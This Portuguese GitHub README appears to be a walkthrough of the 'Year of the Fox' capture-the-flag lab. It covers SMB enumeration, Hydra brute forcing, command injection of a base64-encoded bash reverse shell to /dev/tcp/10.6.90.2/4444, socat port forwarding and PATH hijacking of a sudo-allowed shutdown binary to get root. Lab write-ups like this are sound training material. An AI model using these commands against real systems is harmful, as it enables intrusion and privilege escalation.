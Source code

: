 # CTF_y3ar_0f_th3_f0x
walkthrough yearofthefox

*Nivel HARD

******************************************************************************************
Vou começar enumerando os serviços no host com o Nmap.

![fox0 2](https://github.com/user-attachments/assets/9497c669-b7f2-4bdd-8510-cd86bffa1d11)

******************************************************************************************
Usando o smbclient, existe um compartilhamento chamado yotf, porem precisamos da senha.

 us3r  ~  smbclient -L //10.10.18.229
Password for [WORKGROUP\us3r]:

	Sharename       Type      Comment
	---------       ----      -------
	yotf            Disk      Fox's Stuff -- keep out!
	IPC$            IPC       IPC Service (year-of-the-fox server (Samba, Ubuntu))


![fox0 3](https://github.com/user-attachments/assets/253ebfc0-6749-41c1-83a5-285e52290969)

******************************************************************************************

Vou usar o enum4linux para listar os usuários disponíveis. Encontramos 2 usuários válidos: fox e rascal.

![fox0 4](https://github.com/user-attachments/assets/f865ba47-1778-459e-b986-88271d0551ad)

******************************************************************************************

Se no serviço da web não revelar senhas, precisaremos usar brute force

![fox0 5](https://github.com/user-attachments/assets/454d2602-828d-4e07-a9e9-e710ece3911a)

sou imediatamente bloqueado, pois todo o caminho é protegido por senha usando uma autenticação básica.

******************************************************************************************

Vou tentar forçar a autenticação com hydra usando rascal como usuário

![fox0 6](https://github.com/user-attachments/assets/075d4faf-9659-4af9-b5e1-d13ebf1e3cc8)

[80][http-get] host: 10.10.18.229   login: rascal   password: miroku
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-19 22:52:19
 us3r  ~  ^C

e encontrei o password

******************************************************************************************

Agora que logou, podemos entrar no site. É um search engine que pesquisa arquivos de texto.

![fox0 7](https://github.com/user-attachments/assets/839afcd7-5ed8-4e12-b03a-ff3e47544be8)

![fox0 8](https://github.com/user-attachments/assets/7bc2412d-e441-48e7-a8e5-b082f765e04b)

******************************************************************************************

A interceptação com o BurpSuite mostra que a solicitação é enviada para um arquivo search.php e a entrada do usuário é passada em uma string tipo JSON.

![fox0 9](https://github.com/user-attachments/assets/f5705618-dddb-40ec-86af-d2751c633a57)

******************************************************************************************

Vou usar o repeater do BurpSuite para reenviar solicitações

![fox1 1](https://github.com/user-attachments/assets/4020fca6-3aec-47be-88fd-0e78801c5d07)

******************************************************************************************
tentar injetar um shell reverso em bash 

echo -n "bash -i >& /dev/tcp/10.6.90.2/4444 0>&1" | base64

![fox1 2](https://github.com/user-attachments/assets/cb664284-5903-4e80-b3c6-d318b4478660)

******************************************************************************************
a requisição com o shell reverso codificado em base64

![fox1 3](https://github.com/user-attachments/assets/250dd357-101b-466f-ac63-e40b1d9e6c26)

******************************************************************************************
Tenho o shell reverso com netcat e garatimos a primeira flag 

![fox1 4](https://github.com/user-attachments/assets/cc9bf4eb-1020-42d9-9d87-2b8319d43808)

******************************************************************************************
Busquei por configurações SSH [sshd_config] pra verificar se existe serviço escutando em localhost,
confirmado pelo arquivo de configuração sshd_config, que informa que só o usuário Fox pode se conectar

![fox1 7](https://github.com/user-attachments/assets/cd9b643d-f651-4fc9-88ae-5e1c8d0dabf7)

******************************************************************************************

Posso usar o socat para abrir outra porta (por exemplo, 2222) e redirecionar para a porta 22 no localhost. Como o socat não está disponível no alvo, vou baixá-lo da minha máquina:

![fox1 8](https://github.com/user-attachments/assets/b143aef4-556c-42cd-9e6a-bf900f024380)

------------------------------------------------------------------------------------------

![fox1 9](https://github.com/user-attachments/assets/c69c5c81-b5ad-4fe5-8558-b899319f00a5)

******************************************************************************************

consegui a conexão SSH na porta 2222. Hora de um novo ataque brute force

![fox2](https://github.com/user-attachments/assets/3a5869e3-2d29-4a79-bd4f-1e45da2993e9)

******************************************************************************************

Temos a senha e vou fazer a conexão via ssh -p 2222

![fox2 1](https://github.com/user-attachments/assets/c8eda088-4fb2-4530-ad34-8d1a10831b9a)

e temos a SEGUNDA FLAG

******************************************************************************************

verifiquei os priviçegios do fox com sudo -l e mostra que podemos executar o shutdown como root sem senha.
Ao realizar eng reversa mostra que o executável de desligamento provavelmente foi escrito pelo autor do desafio. ele depende da função de desligamento

void main() {
    system("poweroff");
    return;
}

Vamos explorar a vulnerabilidade encontrada fazendo uma cópia do bash que chamaremos em vez de desligar:
cp /bin/bash poweroff
sudo "PATH=/tmp:$PATH" /usr/sbin/shutdown

![fox2 2](https://github.com/user-attachments/assets/7cb83a9f-f5ac-4492-abdd-781a18c5274e)

******************************************************************************************
Foi escalado pra user ROOT!!!
a flag não estava disponivel no diretorio principal, mas sim oculta dentro do home/rascal.
ai está a TERCEIRA FLAG!

![fox2 3](https://github.com/user-attachments/assets/61f06ef5-0f81-4a7d-b212-be6d05c4c01a)






